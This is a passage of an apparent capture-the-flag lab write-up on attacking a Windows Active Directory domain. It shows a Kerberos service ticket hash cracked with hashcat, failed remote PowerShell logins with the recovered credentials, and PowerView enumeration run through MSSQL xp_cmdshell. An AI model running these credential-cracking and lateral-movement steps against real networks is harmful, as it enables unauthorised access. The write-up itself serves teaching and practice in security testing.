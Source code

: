 ```
                       2E30367B707C9D7BC4D5D66CA8F82654EB5DD55AEE2FB15EF1D4BDFF0F01ED4040C2E1BDBBA1E41560EB156EF5C94F50
                       7121CA4D0E76A1A6668F43A32933087F11273FCA0ABC89A53DCC3D69B8300AEBB30318090A6C7EBA72C91F8116EE8929
                       0CB267D5
```

```
hashcat64 -a 0 -m 13100 -r rules\best64.rule tgshash.txt Passwords\*
```

Password found: `ZQ!5t4r`

### Bloodhound

Unfortunately we can't establish an interactive session with our two users:

```
PS C:\Users\snowscan> $SecPassword = ConvertTo-SecureString 'ZQ!5t4r' -AsPlainText -Force
PS C:\Users\snowscan> $Credential = New-Object System.Management.Automation.PSCredential('p00_adm', $SecPassword)
PS C:\Users\snowscan> enter-pssession -computername [dead:babe::1001] -credential $Credential
enter-pssession : Connecting to remote server [dead:babe::1001] failed with the following error message : Access is denied. For more information, see the
about_Remote_Troubleshooting Help topic.
At line:1 char:1
+ enter-pssession -computername [dead:babe::1001] -credential $Credenti ...
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : InvalidArgument: ([dead:babe::1001]:String) [Enter-PSSession], PSRemotingTransportException
    + FullyQualifiedErrorId : CreateRemoteRunspaceFailed

PS C:\Users\snowscan> $SecPassword = ConvertTo-SecureString 'Development1!' -AsPlainText -Force
PS C:\Users\snowscan> $Credential = New-Object System.Management.Automation.PSCredential('p00_dev', $SecPassword)
PS C:\Users\snowscan> enter-pssession -computername [dead:babe::1001] -credential $Credential
enter-pssession : Connecting to remote server [dead:babe::1001] failed with the following error message : Access is denied. For more information, see the
about_Remote_Troubleshooting Help topic.
At line:1 char:1
+ enter-pssession -computername [dead:babe::1001] -credential $Credenti ...
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : InvalidArgument: ([dead:babe::1001]:String) [Enter-PSSession], PSRemotingTransportException
    + FullyQualifiedErrorId : CreateRemoteRunspaceFailed
```

Using MSSQL with xp_cmdshell, we can use Powerview to poke around the DC:

```
logoncount             : 13
badpasswordtime        : 4/11/2018 11:16:31 PM
description            : Built-in account for administering the computer/domain
distinguishedname      : CN=Administrator,CN=Users,DC=intranet,DC=poo
objectclass            : {top, person, organizationalPerson, user}
name                   : Administrator
objectsid              : S-1-5-21-2413924783-1155145064-2969042445-500
samaccountname         : Administrator
logonhours             : {255, 255, 255, 255...}
admincount             : 1
codepage               : 0
samaccounttype         : USER_OBJECT
accountexpires         : 1/1/1601 2:00:00 AM
countrycode            : 0
whenchanged            : 4/11/2018 9:45:33 PM
instancetype           : 4
```